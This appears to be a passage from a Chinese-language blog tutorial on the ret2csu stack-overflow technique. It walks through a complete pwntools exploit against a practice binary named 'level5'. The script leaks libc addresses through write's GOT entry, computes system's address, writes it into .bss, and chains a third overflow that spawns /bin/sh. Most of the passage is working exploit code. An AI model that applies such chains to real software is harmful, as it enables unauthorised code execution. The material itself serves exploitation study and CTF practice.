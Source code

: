 ![](https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/ret2csu/c14.png?x-oss-process=style/watermark)

即，调用了system('bin/sh')函数，获取shell

完整exp如下：

```python
from pwn import *
elf = ELF('level5')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
p = process('./level5')

got_write = elf.got['write']
got_read = elf.got['read']
main = 0x400564
bss_addr=0x601028

payload1 =  "\x00"*136
payload1 += p64(0x400606) + p64(0) +p64(0) + p64(1) + p64(got_write) + p64(1) + p64(got_write) + p64(8) 
payload1 += p64(0x4005F0) + "\x00"*56 + p64(main)#第一段溢出
p.recvuntil("Hello, World\n")
p.send(payload1)

write_addr = u64(p.recv(8)) #接收write打印的内容
print "write_addr: " + hex(write_addr)
off_system_addr = libc.symbols['write'] - libc.symbols['system']#计算偏移
print "off_system_addr: " + hex(off_system_addr)
system_addr = write_addr - off_system_addr #计算system地址
print "system_addr: " + hex(system_addr)

p.recvuntil("Hello, World\n")
payload2 =  "\x00"*136
payload2 += p64(0x400606) + p64(0) + p64(0) + p64(1) + p64(got_read) + p64(0) + p64(bss_addr) + p64(16)
payload2 += p64(0x4005F0) + "\x00"*56 + p64(main) #第二段溢出
p.send(payload2)
sleep(1)
p.send(p64(system_addr))
p.send("/bin/sh\0")
p.recvuntil("Hello, World\n")

payload3 =  "\x00"*136 + p64(0x400606) + p64(0) +p64(0) + p64(1) + p64(bss_addr) + p64(bss_addr+8) + p64(0) + p64(0) + p64(0x4005F0) + "\x00"*56 + p64(main) #第三段溢出
p.send(payload3)
p.interactive()
```

成功获取shell：

![](https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/ret2csu/c15.png?x-oss-process=style/watermark)

## 注意：

有些gadgets1的片段是pop，而不是mov：

![](https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/ret2csu/c16.png?x-oss-process=style/watermark)

此时注意不需要填充0，寄存器的位置也要注意，此时的溢出应该如下：

![](https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/ret2csu/c17.png?x-oss-process=style/watermark)
